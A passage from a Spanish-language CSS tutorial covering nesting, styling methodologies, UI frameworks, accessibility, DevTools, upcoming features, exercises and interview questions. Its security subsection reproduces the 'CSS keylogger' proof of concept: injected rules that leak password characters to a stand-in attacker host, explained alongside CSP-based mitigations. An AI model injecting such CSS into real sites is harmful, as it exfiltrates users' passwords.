   Lightning CSS lo convirtió en
   "__titulo.card" → no coincide con nada */
```
:::

Salida real de Lightning CSS (transpilando nesting para `chrome 100`):

```css
/* Entrada */
.card {
  color: oklch(54% 0.25 293);
  & .titulo { font-weight: 700; }
  &:hover { translate: 0 -4px; }
  @media (width >= 768px) { padding: 2rem; }
}

/* Salida */
.card {
  color: #7c38ee;
  color: lab(41.9683% 58.176 -81.7342);
}
.card .titulo { font-weight: 700; }
.card:hover { translate: 0 -4px; }
@media (min-width: 768px) {
  .card { padding: 2rem; }
}
```

📌 Explicación: la herramienta "aplana" el anidado, convierte el rango `width >= 768px` a `min-width` y añade un color hex de respaldo antes del color moderno. Es lo que hacen por debajo Vite, Next.js o Tailwind v4 cuando configuras navegadores objetivo.

💡 Consejo: no anides más de **2–3 niveles**. Cada nivel suma especificidad y produce selectores largos y frágiles (el famoso "infierno de anidado" de los proyectos Sass viejos).
⚠️ Cuidado: el selector padre anidado se trata como `:is()`, así que la especificidad de `.a, #b { & .c {} }` es la del más fuerte (`#b`). Sorpresas si mezclas ids.
🇬🇧 **nesting** = anidado · **nested rule** = regla anidada · **parent selector** = selector padre · **flatten** = aplanar · **transpile** = transpilar (traducir código a otra versión)

## 🧰 Metodologías y herramientas

🧠 Concepto: el CSS es **global**: cualquier regla puede afectar a cualquier elemento. En un proyecto grande eso genera choques de nombres y miedo a borrar nada. Cada metodología o herramienta es una respuesta distinta a ese problema.



```tiempo
2009 : OOCSS (Nicole Sullivan): separar estructura y apariencia
2010 : BEM se publica (venía de Yandex)
2011 : Bootstrap sale de Twitter
2015 : CSS Modules; auge del CSS-in-JS con React
2017 : Tailwind CSS
2023 : shadcn/ui; StyleX (Meta) se publica como open source
2025 : Tailwind v4: configuración en CSS y motor nuevo
```

### 🧱 BEM: nombres que dicen qué son

**B**loque (`.card`) · **E**lemento: parte del bloque (`.card__titulo`, dos guiones bajos) · **M**odificador: variante (`.card--destacada`, dos guiones).

```css
.card { }                        /* bloque */
.card__imagen { }                /* elemento */
.card__boton { }
.card--destacada { }             /* modificador */
.card__boton--deshabilitado { }
```

✅ Bien: todo es una sola clase → especificidad plana (0,1,0) y sin peleas.
❌ Mal: `.card .contenido .titulo span` → frágil: si cambias el HTML, el estilo muere.

### 📦 CSS Modules: clases con alcance local

```css
/* Boton.module.css */
.boton { padding: .75em 1.5em; border-radius: .75rem; }
.peligro { background: #dc2626; color: white; }
```

```jsx
// Boton.jsx (React con Vite o Next.js: soporte incluido)
import estilos from "./Boton.module.css";

export function Boton({ peligro, children }) {
  return (
    <button className={`${estilos.boton} ${peligro ? estilos.peligro : ""}`}>
      {children}
    </button>
  );
}
// En el HTML final la clase sale como "Boton_boton__x7f2a": única, sin choques
```

### 🌊 Tailwind CSS: clases utilitarias

```html
<!-- Card con Tailwind: el estilo vive en el HTML -->
<article class="max-w-sm rounded-2xl bg-white p-6 shadow-lg dark:bg-zinc-900">
  <h3 class="text-lg font-semibold text-zinc-900 dark:text-zinc-100">Deep Learning</h3>
  <p class="mt-2 text-sm text-zinc-600 dark:text-zinc-400">Tu primera red con PyTorch.</p>
  <a class="mt-4 inline-block rounded-full bg-violet-600 px-4 py-2 text-white hover:bg-violet-700" href="/dl">
    Ver curso
  </a>
</article>
```

```css
/* Tailwind v4: la configuración es CSS */
@import "tailwindcss";
@theme {
  --color-marca: oklch(54% 0.25 293);   /* genera bg-marca, text-marca... */
  --font-display: "Inter", sans-serif;
}
```

### 💲 Sass: CSS con superpoderes al compilar (salida real de `npx sass`)

```css
/* boton.scss */
@use "sass:color";
$acento: #7c3aed;
$radio: 0.75rem;

@mixin centrar { display: flex; align-items: center; justify-content: center; }

.boton {
  @include centrar;
  border-radius: $radio;
  background: $acento;
  &:hover { background: color.adjust($acento, $lightness: -10%); }
  &--peligro { background: #dc2626; }
}
```

```css
/* CSS generado (resumido) */
.boton {
  display: flex;
  align-items: center;
  justify-content: center;
  border-radius: 0.75rem;
  background: #7c3aed;
}
.boton:hover {
  background: rgb(37.3844049248%, 8.0109439124%, 87.6753305974%);
}
.boton--peligro {
  background: #dc2626;
}
```

⚠️ Cuidado: tutoriales viejos usan `darken()` y `@import` en Sass: hoy están **deprecados** (Dart Sass avisa al compilar). Usa `@use "sass:color"` y `color.adjust()`/`color.scale()`. Y LibSass/node-sass están deprecados: usa el paquete `sass` (Dart Sass).

### 💅 styled-components (CSS-in-JS)

```jsx
import styled from "styled-components";

const Boton = styled.button`
  padding: .75em 1.5em;
  border-radius: .75rem;
  background: ${(props) => (props.$peligro ? "#dc2626" : "#7c3aed")};
  color: white;
`;
// <Boton $peligro>Eliminar</Boton>
```

### 📊 Tabla comparativa

| Enfoque | Cómo aísla estilos | Fuerte en | Débil en |
|---|---|---|---|
| CSS + BEM | Disciplina de nombres | Cero dependencias | Depende de que el equipo cumpla |
| CSS Modules | Renombra clases al compilar | Simple, CSS de verdad | Temas dinámicos = variables CSS |
| Tailwind | No hay clases propias | Velocidad, consistencia, CSS final pequeño | HTML lleno de clases; curva inicial |
| Sass | No aísla (es un preprocesador) | Mixins, bucles, organizar archivos | Muchas ventajas ya son CSS nativo |
| styled-components | Genera clases en JS | Estilos según props | Coste en tiempo de ejecución; choca con Server Components |

### 🧭 ¿Cuál elijo?

| Situación | Recomendación | Por qué NO la otra |
|---|---|---|
| Landing o web pequeña | CSS puro + variables + nesting | Un framework es peso extra |
| App React/Next.js de equipo | Tailwind o CSS Modules | CSS-in-JS en runtime complica Server Components |
| Proyecto con design system propio | Variables CSS (tokens) + Modules o Tailwind con `@theme` | Hardcodear colores impide temas |
| Mantener código viejo con Sass | Seguir con Sass moderno (`@use`) | Migrar todo de golpe es riesgo sin beneficio |
| Componentes con estilos que dependen de props | Variables CSS + `data-*` | Antes se usaba styled-components para eso |

🚀 Futuro: la tendencia es **menos runtime**: CSS-in-JS "zero-runtime" (StyleX de Meta, vanilla-extract, Panda CSS) que genera `.css` estático al compilar. El mantenedor de styled-components anunció en 2025 que la librería pasa a **modo mantenimiento**: para proyectos nuevos se prefieren otras opciones.
💡 Consejo: aprende **CSS puro primero**. Tailwind es solo CSS con otro nombre (`flex`, `gap-4`, `grid-cols-3`): si no entiendes Flexbox, Tailwind no te salva.
🇬🇧 **utility class** = clase utilitaria · **scoped** = con alcance limitado · **preprocessor** = preprocesador · **mixin** = bloque reutilizable · **runtime** = tiempo de ejecución · **naming convention** = convención de nombres

## 🧱 Frameworks y librerías de UI

🧠 Concepto: un **framework CSS** te da clases o componentes ya diseñados (botones, modales, grids) para no empezar de cero. La gran diferencia es **cuánto diseño trae decidido** y **quién es dueño del código**.

```capas
Componentes con diseño : Bootstrap, MUI, Ant Design — rápido, pero se ven "a framework"
Componentes copiables : shadcn/ui — el código es TUYO, encima de Radix + Tailwind
Primitivas sin estilo : Radix UI, React Aria, Headless UI — accesibilidad sin diseño
Utilidades : Tailwind — solo bloques de CSS
CSS puro : tú decides todo
```

| Opción | Tipo | Lo bueno | Cuidado con |
|---|---|---|---|
| Bootstrap 5 | Clases + JS propio | Documentación enorme, rápido para prototipos y admin | Todas las webs se parecen |
| Tailwind CSS | Utilidades | Diseño propio sin escribir CSS a mano | Necesitas saber diseñar |
| shadcn/ui | Componentes copiados a tu repo | Personalizable al 100%, accesible (Radix) | Tú mantienes ese código |
| MUI (Material UI) | Componentes React | Muy completo (tablas, fechas) | Estética Material; peso |
| DaisyUI | Plugin de Tailwind | Clases `btn`, `card` sobre Tailwind | Menos control fino |
| Bulma / Pico.css | Solo CSS | Sin JS; Pico estiliza HTML semántico tal cual | Comunidad más chica |

```html
<!-- Bootstrap: clases con significado -->
<button class="btn btn-primary btn-lg">Inscribirme</button>
<div class="row"><div class="col-md-6">…</div><div class="col-md-6">…</div></div>
```

```bash
# shadcn/ui: el CLI COPIA el componente a tu proyecto (no es una dependencia)
npx shadcn@latest init
npx shadcn@latest add button dialog
# → crea components/ui/button.tsx que puedes editar a tu gusto
```

::: columnas
### ✅ Usa un framework cuando…
- Es un panel admin o herramienta interna.
- Hay plazo corto y el diseño "estándar" sirve.
- El equipo no tiene diseñador.
- Necesitas componentes complejos accesibles (modal, combobox, date picker).
::: siguiente
### ❌ Evítalo cuando…
- Es una landing con diseño de marca muy propio.
- Solo usarías el 5% (cargar Bootstrap entero para un botón).
- Aún no sabes CSS: aprenderás el framework, no la web.
- Vas a pelear contra sus estilos con `!important`.
:::

⚠️ Cuidado: los componentes "difíciles" (modal, menú desplegable, tabs, combobox) tienen MUCHA accesibilidad escondida: foco atrapado, Escape para cerrar, roles ARIA. Usa primitivas probadas (Radix, React Aria, `<dialog>` nativo) en vez de inventarlos con `div`s.
🇬🇧 **UI kit** = kit de interfaz · **component library** = librería de componentes · **headless** /jédles/ = sin estilos · **design system** = sistema de diseño · **boilerplate** = código repetitivo de arranque

## ♿ Accesibilidad visual

🧠 Concepto: la **accesibilidad** (a11y) hace que la web funcione para todos: baja visión, daltonismo, quien navega solo con teclado, quien hace zoom o es sensible al movimiento. Las reglas de referencia son las **WCAG** (Web Content Accessibility Guidelines, versión 2.2 de 2023).

### 🎨 Contraste (calculado con culori, fórmula WCAG)

| Texto sobre fondo | Ratio | ¿Pasa AA texto normal (4.5)? |
|---|---|---|
| `#1f2937` sobre blanco | 14.68 | ✅ |
| `#7c3aed` sobre blanco | 5.70 | ✅ |
| `#767676` sobre blanco | 4.54 | ✅ (justo: el gris más claro que pasa) |
| blanco sobre `#3b82f6` | 3.68 | ❌ (solo texto grande, ≥3) |
| `#999999` sobre blanco | 2.85 | ❌ |
| `#a78bfa` sobre blanco | 2.72 | ❌ (por eso en claro se usa `#7c3aed`) |
| `#a1a1aa` sobre `#0f0f14` | 7.46 | ✅ (gris de modo oscuro) |

```grafica
tipo: barras
titulo: Contraste WCAG calculado (mínimo AA texto normal = 4.5)
unidad: :1
#1f2937/blanco : 14.68
#a1a1aa/#0f0f14 : 7.46
#7c3aed/blanco : 5.70
#767676/blanco : 4.54
blanco/#3b82f6 : 3.68
#999/blanco : 2.85
#a78bfa/blanco : 2.72
```

- `4.5 : 1` :: Mínimo AA para texto normal
- `3 : 1` :: Texto grande (≥24px, o ≥18.66px en negrita) y bordes de controles/iconos
- `7 : 1` :: Nivel AAA para texto normal

### ⌨️ Foco visible

```css
/* ❌ El crimen más común: borrar el foco "porque se ve feo" */
*:focus { outline: none; }

/* ✅ Anillo solo al navegar con teclado, claro y con separación */
:focus-visible {
  outline: 3px solid var(--acento);
  outline-offset: 3px;
  border-radius: 4px;
}
```

### 📋 Lista rápida

- **No solo color**: un error marcado solo en rojo no lo ve un daltónico; añade icono o texto ("⚠ Campo obligatorio").
- **Zoom 200%** sin que nada se corte; y a **320px** de ancho sin scroll horizontal (reflow).
- **Tamaño de toque**: objetivos de al menos 24×24 px (WCAG 2.2 AA); 44×44 es la recomendación cómoda.
- **Movimiento**: respeta `prefers-reduced-motion`; nada que parpadee más de 3 veces por segundo.
- **Contraste forzado**: Windows tiene modo de alto contraste; pruébalo con `@media (forced-colors: active)`.
- **Ocultar bien**: `display:none` lo oculta también al lector de pantalla; para "solo lectores" usa `.sr-only`.
- **Orden visual = orden del HTML**: no lo desordenes con `order` o `grid-area` en exceso.

```css
@media (forced-colors: active) {
  .boton { border: 1px solid ButtonText; }   /* el fondo desaparece: dale un borde */
}
```

⚠️ Cuidado: desde junio de 2025 la **European Accessibility Act** exige accesibilidad a muchos servicios digitales que venden en la UE. Si trabajas remoto para empresas europeas, esto ya es requisito legal, no un "extra".
💡 Consejo: en DevTools el selector de color muestra el **ratio de contraste** y si pasa AA/AAA. Lighthouse y axe DevTools detectan los errores más comunes en segundos.
🇬🇧 **accessibility (a11y)** /aksesibíliti/ = accesibilidad · **contrast ratio** = relación de contraste · **focus ring** = anillo de foco · **color blindness** = daltonismo · **screen reader** = lector de pantalla · **reflow** = reacomodo

## 🐛 Errores de otros programadores

Estos errores los cometieron miles antes que tú. Aprende de ellos gratis.

| Error | Causa | Consecuencia | Cómo evitarlo |
|---|---|---|---|
| Guerra de `!important` | Arreglar conflictos subiendo fuerza | Nadie puede sobrescribir nada | Clases planas, `@layer`, `:where()` |
| Estilar con `#id` | Ids pesan (1,0,0) | Hay que usar otro id para ganar | Solo clases para estilos |
| Selectores larguísimos | `header nav ul li a span` | Se rompe al tocar el HTML | Una clase con nombre (BEM) |
| Sin `box-sizing: border-box` | `width` no incluye padding | Cajas más anchas, columnas que bajan | Reset global |
| `height: 100vh` en móvil | No cuenta las barras del navegador | Botón inferior escondido | `100dvh` / `min-height` |
| Alto fijo con texto | `height: 200px` en una card | El texto se sale al traducir o hacer zoom | `min-height` o dejar que crezca |
| `outline: none` sin reemplazo | "El anillo es feo" | Imposible usar con teclado | `:focus-visible` con estilo propio |
| Texto gris clarito | Moda minimalista | No pasa contraste; ilegible al sol | Mide el ratio (≥4.5) |
| Animar `top`/`width` | Desconocer el pipeline | Tirones en celulares | `transform` y `opacity` |
| `transition: all` | Comodidad | Anima cosas caras o inesperadas | Lista las propiedades |
| `z-index: 99999` | No entender stacking contexts | Sigue debajo, escalada de números | Escala de capas con variables |
| Hijo flex que desborda | `min-width: auto` | Scroll horizontal en toda la página | `min-width: 0` |
| `@import` encadenados en CSS | Organizar archivos | Descargas en serie, página lenta | Bundler o `<link>` |
| Copiar un framework entero | "Por si acaso" | Cientos de KB de CSS sin usar | Purga/tree-shaking o solo lo necesario |
| Px para todo el texto | Costumbre | Ignora la letra preferida del usuario | `rem` |
| Imágenes sin `width`/`height` | Olvido | La página "salta" al cargar (CLS) | Atributos o `aspect-ratio` |

### 🔐 Un caso de seguridad real: robar datos con solo CSS

En 2018 se popularizó la prueba de concepto **"CSS keylogger"**: si una página permite inyectar CSS y el input refleja su valor en el atributo `value` (algunas apps React lo hacían en inputs controlados), un atacante puede escribir:

```css
/* CSS inyectado por un atacante (ejemplo didáctico) */
input[type="password"][value$="a"] { background-image: url("https://atacante.example/a"); }
input[type="password"][value$="b"] { background-image: url("https://atacante.example/b"); }
/* ...una regla por carácter: cada tecla dispara una petición al servidor del atacante */
```

📌 Explicación: **causa** → se permitió CSS de terceros sin control + el valor estaba en un atributo. **Consecuencia** → filtración de caracteres sin una sola línea de JavaScript. **Mitigación** → no aceptes CSS de usuarios (o sanéalo), usa **Content-Security-Policy** (`style-src`, `img-src`) y no reflejes datos sensibles en atributos.

### 🧯 Otros clásicos

::: desplegable 🤦 "En mi pantalla se ve bien"
**Causa**: el programador prueba solo en su monitor de 1920px con Chrome.
**Consecuencia**: en un celular de 360px hay scroll horizontal, botones cortados o texto encimado; en Safari algo se ve distinto.
**Cómo evitarlo**: modo dispositivo de DevTools a 360px, probar en un celular real, revisar Firefox y Safari (o WebKit con Playwright), y mirar Baseline en MDN antes de usar algo nuevo.
:::

::: desplegable 🧟 CSS muerto que nadie se atreve a borrar
**Causa**: CSS global sin dueño; nadie sabe si `.box-old-2` se usa en alguna página.
**Consecuencia**: el archivo crece para siempre y cada cambio da miedo.
**Cómo evitarlo**: estilos junto al componente (CSS Modules, Tailwind), la pestaña **Coverage** de DevTools para ver CSS no usado, y linters como Stylelint.
:::

::: desplegable 💥 Flash del tema equivocado (FOUC / flash blanco)
**Causa**: el tema oscuro se aplica con JS después de que la página ya se pintó en claro.
**Consecuencia**: un destello blanco en cada carga: molesto y poco profesional.
**Cómo evitarlo**: `color-scheme` y `prefers-color-scheme` en CSS, y el script que lee `localStorage` en el `<head>`, antes del primer pintado.
:::

💡 Consejo: instala **Stylelint** (con `stylelint-config-standard`): detecta propiedades mal escritas, duplicados y selectores sospechosos antes de que lleguen a producción.
🇬🇧 **pitfall** = trampa · **layout shift** = salto de diseño · **dead code** = código muerto · **injection** = inyección · **exfiltration** = robo de datos · **linter** = analizador de estilo

## 🔍 Depurar con DevTools

🧠 Concepto: las **DevTools** (F12 o Ctrl+Shift+I en Chrome, Edge, Firefox, Brave) te dejan inspeccionar cualquier elemento, ver qué reglas le aplican, cuáles perdieron y por qué, y editar todo en vivo.

```secuencia
actores: Tú, Elements, Styles, Computed
Tú -> Elements : clic derecho → Inspeccionar
Elements -> Styles : reglas que aplican, ordenadas por fuerza
nota Styles : tachado = perdió · ⚠️ = valor inválido
Tú -> Computed : ¿qué valor quedó al final?
Computed --> Tú : valor final + qué regla lo puso
```

### 🧰 Herramientas que más se usan

- `Ctrl + Shift + C` :: Modo inspeccionar: pasa el ratón por la página y elige el elemento
- `Ctrl + Shift + M` :: Modo dispositivo: prueba anchos de celular (360px)
- `Styles → :hov` :: Forzar `:hover`, `:focus`, `:active` para estilizarlos con calma
- `Styles → .cls` :: Activar o quitar clases con un clic
- `Computed` :: Valor final de cada propiedad y quién lo puso
- `Layout → Grid / Flexbox` :: Superpone líneas, números y áreas de Grid y Flex
- `Insignias "grid" / "flex"` :: En el árbol de Elements: clic para ver el overlay
- `Rendering → Paint flashing` :: Pinta de verde lo que se repinta (detecta animaciones caras)
- `Rendering → Emulate CSS media` :: Simular modo oscuro, `prefers-reduced-motion`, impresión
- `Performance` :: Graba y muestra Layout/Paint de cada fotograma
- `Coverage (Ctrl+Shift+P → coverage)` :: Cuánto CSS NO se usa
- `Animations` :: Ralentiza y repite animaciones para ajustarlas
- `Selector de color` :: Muestra ratio de contraste AA/AAA

### 🧭 Receta: "mi estilo no se aplica"

1. Inspecciona el elemento: ¿es **el elemento correcto**? (A veces el texto está en un `span` hijo).
2. Busca tu regla en **Styles**. ¿No aparece? El selector no coincide o el archivo no cargó (mira **Network**).
3. ¿Aparece **tachada**? Otra regla ganó: mira cuál está arriba y compara especificidad/capas.
4. ¿Tiene ⚠️? Valor inválido o propiedad mal escrita.
5. ¿Aplica pero no se ve? Revisa **Computed** y el contexto: un padre con `overflow: hidden`, `display: none`, un `z-index`, una propiedad que solo funciona en flex/grid (`gap`, `justify-self`).

```css
/* Truco de emergencia: ver todas las cajas y encontrar el que desborda */
* { outline: 1px solid rgb(255 0 0 / 40%); }
```

💡 Consejo: lo que edites en DevTools se pierde al recargar. En Chrome, **Sources → Workspaces** (o "Changes" con Ctrl+Shift+P) te muestra el diff para copiarlo a tu archivo.
🇬🇧 **inspect** = inspeccionar · **computed** = calculado · **overlay** = superposición · **coverage** = cobertura · **breakpoint** (en JS) = punto de interrupción · **repaint** = repintado

## 🚀 Futuro de CSS

🧠 Concepto: **Baseline** (de web.dev y MDN) dice si una característica funciona en las versiones actuales de Chrome, Edge, Firefox y Safari. "Newly available" = recién en todos; "Widely available" = lleva ~30 meses, úsalo sin miedo. Además, el proyecto **Interop** (desde 2022) junta a los navegadores cada año para arreglar diferencias.

```tiempo
2023 : :has(), container queries, nesting, subgrid, oklch, color-mix
2024 : @starting-style, light-dark(), @property en todos, text-wrap balance
2025 : anchor positioning (Chrome 125, Firefox 147 en 2026, Safari 26) y view transitions se extienden
2026 : @scope y field-sizing ya en los tres motores; if() y select personalizable siguen sin Firefox
```

### 🎬 View Transitions: animar entre estados o páginas

```css
/* Navegación entre páginas (MPA) con transición, sin JS */
@view-transition { navigation: auto; }

/* La foto de la lista "vuela" a su sitio en la página de detalle */
.miniatura-curso { view-transition-name: foto-curso; }
.portada-curso   { view-transition-name: foto-curso; }

::view-transition-old(root),
::view-transition-new(root) { animation-duration: .3s; }
```

```js
// En una SPA: envuelve el cambio del DOM
document.startViewTransition(() => mostrarDetalle(curso));
```

### ⚓ Anchor positioning: tooltips pegados sin JS

```css
.boton-ayuda { anchor-name: --ayuda; }
.tooltip {
  position: absolute;
  position-anchor: --ayuda;
  position-area: top;                    /* encima del botón */
  position-try-fallbacks: flip-block;    /* si no cabe arriba, va abajo */
}
```

⚠️ Cuidado: anchor positioning ya está en Chrome 125+, Firefox 147+ y Safari 26+, pero con diferencias de detalle (revisa caniuse); `@view-transition { navigation: auto }` (entre páginas) aún no funciona en Firefox: usa mejora progresiva.
🧠 Concepto: antes, colocar un tooltip o menú junto a su botón (y moverlo si se sale de la pantalla) requería librerías JS como Popper o Floating UI. Ahora CSS lo resuelve solo.

### 📜 Scroll-driven animations: animar según el scroll

```css
/* Barra de progreso de lectura */
@keyframes progreso { from { scale: 0 1; } to { scale: 1 1; } }
.barra-lectura {
  position: fixed; inset: 0 0 auto; height: 4px;
  background: var(--acento);
  transform-origin: left;
  animation: progreso linear both;
  animation-timeline: scroll();          /* el "tiempo" es el scroll de la página */
}

/* Elementos que aparecen al entrar en pantalla */
.revelar {
  animation: aparecer linear both;
  animation-timeline: view();
  animation-range: entry 0% cover 30%;
}
```

### 🧪 Más cosas que vienen o están llegando

| Característica | Para qué | Estado aproximado (revisa caniuse) |
|---|---|---|
| `@scope` | Limitar estilos a un subárbol (sin BEM) | Chrome 118, Firefox 146, Safari 26.4: ya en los tres |
| `field-sizing: content` | Textarea/input que crece con el texto | Chrome 123, Safari 26.2, Firefox 152 |
| `appearance: base-select` | `<select>` totalmente estilizable | Chrome/Edge 135 y Safari 27; Firefox aún no |
| `if()` | Condicionales dentro de un valor | Solo Chromium (137+) |
| `interpolate-size` / `calc-size()` | Animar a `height: auto` | Solo Chromium (129+) |
| `text-box` | Recortar el espacio extra arriba/abajo del texto | Chrome 133, Safari 18.2; Firefox 154 |
| Funciones propias (`@function`) | Funciones definidas en CSS | Solo Chromium (139+), experimental |

🚀 Futuro: la tendencia es clara: cosas que antes exigían **JavaScript** (tooltips, animaciones al hacer scroll, transiciones entre páginas, selectores padre, condicionales) pasan a **CSS declarativo**, más rápido y accesible. Usa **mejora progresiva**: la página debe funcionar sin la novedad y verse mejor con ella.

```css
/* Mejora progresiva con @supports */
@supports (animation-timeline: scroll()) {
  .barra-lectura { display: block; }
}
@supports not (animation-timeline: scroll()) {
  .barra-lectura { display: none; }   /* sin soporte: simplemente no aparece */
}
```

🇬🇧 **progressive enhancement** = mejora progresiva · **anchor** /ánkor/ = ancla · **scroll timeline** = línea de tiempo del scroll · **feature detection** = detección de características · **interoperability** = interoperabilidad · **shipping** = ya publicado en el navegador

## 🏋️ Ejercicios de maquetación

Hazlos en un archivo HTML vacío o en CodePen. Intenta **primero sin mirar** la solución.

### 1️⃣ Fácil: centra un div de tres formas distintas

Una `.caja` de 200×200 en el centro exacto de la pantalla.

::: desplegable 🧩 Ver la solución
```css
/* A) Grid: la más corta */
body { display: grid; place-items: center; min-height: 100dvh; margin: 0; }

/* B) Flexbox */
body { display: flex; justify-content: center; align-items: center; min-height: 100dvh; margin: 0; }

/* C) Posicionamiento absoluto */
.caja { position: absolute; inset: 0; margin: auto; width: 200px; height: 200px; }
```
📌 En C, `inset: 0` + `margin: auto` + tamaño fijo reparte el sobrante por igual en los 4 lados. Sin tamaño fijo se estiraría.
:::

### 2️⃣ Fácil: ¿de qué color es el enlace?

```html
<nav id="menu"><a class="link activo" href="/">Inicio</a></nav>
```

```css
#menu a        { color: blue; }
.link.activo   { color: green; }
nav a:hover    { color: orange; }
a              { color: red !important; }
```

::: desplegable 🧩 Ver la solución
**Rojo**. `!important` salta por encima de la especificidad normal. Sin él ganaría **azul**: `#menu a` = (1,0,1) vence a `.link.activo` = (0,2,0) porque se compara primero la columna de ids. Al pasar el ratón también azul: `nav a:hover` = (0,1,2) pierde contra (1,0,1).
:::

### 3️⃣ Medio: footer pegado abajo (sticky footer)

Si la página tiene poco contenido, el footer debe quedar al fondo de la ventana; si tiene mucho, después del contenido.

::: desplegable 🧩 Ver la solución
```css
body {
  margin: 0;
  min-height: 100dvh;
  display: grid;
  grid-template-rows: auto 1fr auto;   /* header, main (se estira), footer */
}
```
📌 `1fr` hace que `main` absorba todo el sobrante. Usa `min-height` (no `height`) para que crezca con contenido largo.
:::

### 4️⃣ Medio: galería responsive sin media queries

Tarjetas de mínimo 220px, tantas por fila como quepan, separadas 1rem, imágenes 4:3 recortadas sin deformar.

::: desplegable 🧩 Ver la solución
```css
.galeria {
  display: grid;
  grid-template-columns: repeat(auto-fit, minmax(min(220px, 100%), 1fr));
  gap: 1rem;
}
.galeria img { width: 100%; aspect-ratio: 4 / 3; object-fit: cover; border-radius: .5rem; }
```
📌 El `min(220px, 100%)` evita desborde en pantallas de menos de 220px (relojes, ventanas muy estrechas): la columna nunca pide más que el 100% del contenedor.
:::

### 5️⃣ Medio: layout "Santo Grial" responsive

Celular: cabecera, contenido, lateral y pie en una columna. Desde 900px: navegación a la izquierda (200px), contenido al centro, anuncios a la derecha (200px), cabecera y pie a lo ancho.

::: desplegable 🧩 Ver la solución
```css
.pagina {
  display: grid;
  gap: 1rem;
  min-height: 100dvh;
  grid-template-areas: "cab" "contenido" "nav" "extra" "pie";
}
@media (width >= 900px) {
  .pagina {
    grid-template-columns: 200px 1fr 200px;
    grid-template-rows: auto 1fr auto;
    grid-template-areas:
      "cab cab       cab"
      "nav contenido extra"
      "pie pie       pie";
  }
}
header { grid-area: cab; } main { grid-area: contenido; }
nav { grid-area: nav; } aside { grid-area: extra; } footer { grid-area: pie; }
```
📌 Los hijos nunca cambian: solo se redibuja el "mapa" de áreas. En el HTML pon `main` antes que `nav` y `aside` para que el lector de pantalla llegue primero al contenido.
:::

### 6️⃣ Medio-difícil: modal sobre todo, con fondo oscuro

Un modal centrado que quede encima de un header `sticky` con `z-index: 100` y bloquee el scroll.

::: desplegable 🧩 Ver la solución
```html
<dialog id="modal" class="modal">
  <h2>¿Eliminar curso?</h2>
  <form method="dialog"><button>Cancelar</button></form>
</dialog>
```
```css
.modal {
  border: none;
  border-radius: 1rem;
  padding: 2rem;
  width: min(90vw, 28rem);
}
.modal::backdrop { background: rgb(0 0 0 / 55%); backdrop-filter: blur(3px); }
body:has(.modal[open]) { overflow: hidden; }   /* bloquea el scroll de atrás */
```
```js
document.querySelector("#modal").showModal();
```
📌 `showModal()` pone el `<dialog>` en la **top layer**: queda por encima de cualquier `z-index`, sin pelear con stacking contexts. Además atrapa el foco y cierra con Escape. Centrado ya viene del navegador.
:::

### 7️⃣ Difícil: card que se adapta a su contenedor

La misma card debe ser vertical en un sidebar de 300px y horizontal (imagen a la izquierda 40%) cuando su contenedor mide 500px o más.

::: desplegable 🧩 Ver la solución
```css
.contenedor-cards { container-type: inline-size; }
.card { display: grid; gap: 1rem; }
.card img { width: 100%; aspect-ratio: 16 / 9; object-fit: cover; }

@container (width >= 500px) {
  .card { grid-template-columns: 40% 1fr; align-items: center; }
  .card img { aspect-ratio: 1; height: 100%; }
}
```
📌 Con media query fallaría: en una pantalla grande la card del sidebar seguiría siendo estrecha. La container query pregunta por el ancho real disponible del componente.
:::

### 8️⃣ Difícil: skeleton loader que no consuma CPU

Placeholder gris con un brillo que lo cruza en bucle, mientras cargan los datos.

::: desplegable 🧩 Ver la solución
```css
.skeleton {
  position: relative;
  overflow: hidden;
  border-radius: .5rem;
  background: light-dark(#e4e4e7, #27272a);
  min-height: 1rem;
}
.skeleton::after {
  content: "";
  position: absolute;
  inset: 0;
  background: linear-gradient(90deg, transparent, rgb(255 255 255 / 35%), transparent);
  translate: -100% 0;
  animation: brillo 1.4s ease-in-out infinite;
}
@keyframes brillo { to { translate: 100% 0; } }

@media (prefers-reduced-motion: reduce) {
  .skeleton::after { animation: none; }
}
```
📌 Se anima `translate` (solo Composite) en vez de `background-position` (repinta cada fotograma). `overflow: hidden` recorta el brillo y respetamos `prefers-reduced-motion`.
:::

## 🎤 Preguntas de entrevista

::: desplegable ❓ ¿Cómo decide CSS qué regla gana?
Por la cascada: primero origen e importancia (`!important`), luego capas (`@layer`), luego especificidad (ids, clases/atributos/pseudo-clases, etiquetas) y si empatan, el orden: gana la última. La herencia solo aplica si el elemento no tiene ningún valor declarado para esa propiedad.
:::

::: desplegable ❓ ¿Diferencia entre `:is()` y `:where()`?
Seleccionan lo mismo, pero `:where()` siempre tiene especificidad 0 y `:is()` toma la de su argumento más específico. `:where()` es ideal para estilos base fáciles de sobrescribir (librerías, resets).
:::

::: desplegable ❓ Explica el modelo de caja y `box-sizing`
Contenido, padding, border y margin. Con `content-box` (defecto) `width` solo mide el contenido y el padding/borde se suman; con `border-box` `width` incluye padding y borde, lo que hace los tamaños predecibles. Casi todos los proyectos ponen `border-box` global.
:::

::: desplegable ❓ ¿Flexbox o Grid? ¿Cuándo cada uno?
Flexbox para una dimensión donde el contenido decide el tamaño (navbars, grupos de botones, centrar). Grid para dos dimensiones o cuando el contenedor define la estructura (layout de página, galerías, alineación entre cards con subgrid). Se combinan: Grid para el esqueleto, Flex dentro de componentes.
:::

::: desplegable ❓ ¿Por qué mi z-index no funciona?
Porque el elemento es `static` (z-index no aplica, salvo hijos flex/grid) o porque está dentro de otro stacking context: un ancestro con `transform`, `opacity < 1`, `filter`, `z-index`, etc. Los z-index solo compiten dentro de su contexto. Solución: revisar ancestros, usar `isolation: isolate` a propósito o la top layer (`<dialog>`, `popover`).
:::

::: desplegable ❓ ¿Qué propiedades animarías para un rendimiento óptimo?
`transform` (y `translate`, `scale`, `rotate`) y `opacity`, porque solo requieren composición en la GPU. Animar `width`, `height`, `top`, `margin` dispara layout y paint en cada fotograma. Además respetaría `prefers-reduced-motion`.
:::

::: desplegable ❓ ¿Qué es mobile-first y por qué se usa?
Escribir los estilos base para pantallas pequeñas y añadir mejoras con `min-width` para pantallas mayores. El CSS base es más simple, el celular evalúa menos reglas pisadas y obliga a priorizar el contenido.
:::

::: desplegable ❓ Media query vs container query
La media query consulta la ventana/dispositivo; la container query consulta el tamaño del contenedor declarado con `container-type`. Las container queries hacen componentes realmente reutilizables porque se adaptan a donde los pongas.
:::

::: desplegable ❓ ¿Qué ventajas tienen las variables CSS sobre las de Sass?
Existen en tiempo de ejecución: se heredan por el DOM, se pueden redefinir por componente, en media queries o desde JS. Eso permite temas claro/oscuro y variantes sin recompilar. Las de Sass desaparecen al compilar, pero sirven para cálculos y bucles en build.
